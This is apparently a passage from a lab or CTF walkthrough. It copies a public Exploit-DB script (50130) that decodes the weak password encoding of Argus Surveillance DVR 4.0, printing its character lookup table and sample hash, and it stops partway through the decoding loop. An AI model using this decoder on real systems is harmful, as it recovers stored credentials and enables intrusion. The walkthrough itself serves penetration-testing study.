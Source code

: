 That didn't work. Back when we were looking for exploits for this Argus server, there was an entry with "Weak Password Encryption" in the title. It's a python script. Let's take a look at it.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 50130
  Exploit: Argus Surveillance DVR 4.0 - Weak Password Encryption
      URL: https://www.exploit-db.com/exploits/50130
     Path: /usr/share/exploitdb/exploits/windows/local/50130.py
File Type: ASCII text

Copied to: /home/kali/50130.py

┌──(kali㉿kali)-[~]
└─$ cat 50130.py   
# Exploit Title: Argus Surveillance DVR 4.0 - Weak Password Encryption
# Exploit Author: Salman Asad (@LeoBreaker1411 / deathflash1411)
# Date: 12.07.2021
# Version: Argus Surveillance DVR 4.0
# Tested on: Windows 7 x86 (Build 7601) & Windows 10

# Note: Argus Surveillance DVR 4.0 configuration is present in
# C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini

# I'm too lazy to add special characters :P
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

# ASCII art is important xD
banner = '''
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############
'''
print(banner)

# Change this :)
pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
        print("[!] Error, check your password hash")
        exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
        split.append(pass_hash[index : index + n])

for key in split:
```